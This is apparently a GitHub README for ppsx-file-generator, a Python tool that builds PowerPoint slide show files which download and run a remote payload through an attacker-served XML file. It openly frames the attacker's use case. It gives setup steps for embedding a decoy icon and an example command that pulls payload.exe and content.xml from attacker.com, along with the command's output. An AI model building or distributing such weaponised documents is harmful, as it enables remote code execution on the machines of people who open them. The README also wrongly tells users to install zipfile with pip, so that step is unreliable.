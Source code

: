 # Introduction

ppsx-file-generator is a python tool that generates a power point slide show file that executes code from a remote source based on an existing file.

# What does it do?

The tool generates a power point slide show file and an xml file based using the input provided. The power point file accesses the xml file which holds information of the payload file. An attacker could serve the xml file and the payload on a local or public server and provide the url for each as input.

# Getting the code

First, get the code:
```
git clone https://github.com/ParsingTeam/ppsx-file-generator.git
```

ppsx-file-generator is written in Python and requires zipfile which can be installed using Pip:
```
pip install zipfile
```
Requires Microsoft Office Power Point to  carry out this task.

# Usage
First open Microsoft Office Power Point and open 'template.ppsx'. Open your own presentation file and copy the icon 'Coder.exe' from template.ppsx to slide 1 of your power point file. Save the file as Power Point Show (.ppsx). Then use the python tool as

        Usage: generate_ppsx.py input_filename -o output_filename -p payload_uri -x xml_uri

        input_filename          The input ppsx file name.

        -o              Output .ppsx file name, (inlcude the .ppsx).
        -p              The payload exe or sct file url. 
                        It must be in an accessible web server. (Optional for xml file)
        -x              The full xml uri to be called by the ppsx file. 
                        It must be in an accessible web server.(Required)

```
python generate_ppsx.py -o output.ppsx -p http://attacker.com/payload.exe -x http://attacker.com/content.xml input.ppsx
Generated content.xml successfully
Generated output.ppsx successfully
```
